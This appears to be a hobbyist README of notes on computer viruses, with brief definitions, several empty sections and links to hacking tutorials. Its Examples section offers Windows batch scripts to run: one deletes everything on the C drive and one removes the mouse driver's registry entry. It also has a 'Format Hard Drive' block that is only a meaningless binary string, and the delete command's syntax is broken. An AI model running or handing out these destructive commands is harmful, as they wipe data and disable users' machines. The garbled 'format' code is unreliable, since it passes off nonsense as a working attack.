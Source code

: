 ## Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code, documents or the boot sector of the hard drive. Viruses often perform some type of harmful activity on "infected" hosts, such as stealing hard disk space or CPU time, accessing private information, corrupting data, rendering the computer useless and so on. However, not all viruses carry a destructive payload or attempt to hide themselves - the defining characteristic of viruses is that they are self-replicating computer programs which install themselves without user consent.  
  
*Hex dump of the [Blaster Worm](http://en.wikipedia.org/wiki/Blaster_(computer_worm))*
![Blaster Worm](http://upload.wikimedia.org/wikipedia/commons/e/ec/Virus_Blaster.jpg)

#### Examples
This examples are based on Windows machines but be careful if you are going to run it on Mac or Linux.  
  
*File format: *.bat* 
  
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```
  
**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```
  
**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```


## Malicious Software (Malware)


## Computer Worm


## Trojan horse


## Payload
Payload is the cargo of a [data transmission](http://en.wikipedia.org/wiki/Data_transmission). It is the part of the transmitted data which is the fundamental purpose of the transmission, to the exclusion of information sent with it (such as headers or metadata, sometimes refferred to as overhead data) solely to facilitate delivery. In the analysis of malicious software such as worms, viruses and Trojans, it also refers to the software's harmful results. Examples of payloads include data destruction, messages with insulting text or spurious e-mail messages sent to a large number of people.

*Veli Payload Delivery with psexec*
![Veli Payload Delivery with psexec](http://i.ytimg.com/vi/SgsEAzGrT4k/maxresdefault.jpg)

## Resources
- [Computer Virus](http://en.wikipedia.org/wiki/Computer_virus)
- [Hack Like a Pro: Metasploit for the Aspiring Hacker, Part 3 (Payloads)](http://null-byte.wonderhowto.com/how-to/hack-like-pro-metasploit-for-aspiring-hacker-part-3-payloads-0157032)
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
